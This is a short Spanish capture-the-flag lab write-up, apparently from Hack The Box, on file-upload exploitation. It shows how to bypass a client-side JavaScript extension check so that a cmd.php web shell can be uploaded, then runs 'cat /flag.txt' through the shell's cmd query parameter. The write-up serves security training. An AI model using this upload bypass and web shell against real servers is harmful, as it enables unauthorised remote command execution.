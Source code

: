 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Validations/01-Web.PNG" width=400>
</p>

---

2. Analizamos las validaciones del **lado del cliente**

```html
<form id="uploadForm" action="upload.php" method="POST" enctype="multipart/form-data" onsubmit="if(validate()){upload()}">
```

* La validación es `onsubmit="if(validate()){upload()}"`

---

3. Si analizamos el código `script.js`
* **URL:** `http://[IP]/script.js`

```js
function validate() {
  var file = $("#uploadFile")[0].files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#error_message').text("Only images are allowed!");
    File.form.reset();
    $("#submit").attr("disabled", true);
    return false;
  } else {
    return true;
  }
}
```

---

4. Eliminamos la función `validate` para subir `cmd.php`

---

5. Visitamos la url `/profile_images/cmd.php` y leemos la **flag** 🏴
   
* **URL:** `http://[IP]/profile_images/cmd.php?cmd=cat%20/flag.txt`

**Output**
```
HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}
```